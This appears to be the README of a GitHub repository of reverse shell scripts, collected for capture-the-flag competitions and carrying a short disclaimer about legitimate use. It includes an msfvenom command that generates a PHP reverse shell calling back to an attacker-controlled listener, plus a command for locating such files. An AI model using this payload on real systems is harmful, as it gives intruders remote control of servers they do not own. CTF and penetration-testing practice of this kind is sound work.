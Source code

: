 # reverse-shell

While working on various CTF challenges, I discovered the need for reverse shell scripts to gain remote access to compromised systems.
With the goal of streamlining this process, I compiled a list of useful scripts that I have personally used in CTF competitions.

Although there are numerous resources available online, I created this repository primarily for my own reference.
However, I am sharing it here to provide others with access to these scripts, which can be used at their discretion.

It is important to note that these scripts should only be used for legitimate purposes, such as remote administration of systems or troubleshooting.
Any misuse of these scripts is strictly prohibited and may result in legal consequences.


# Generate custom shell

msfvenom -p php/reverse_php lport=4444 lhost=192.168.29.4 > ./php_reverse_shell.php


# Find shell into local system

locate reverse | grep php
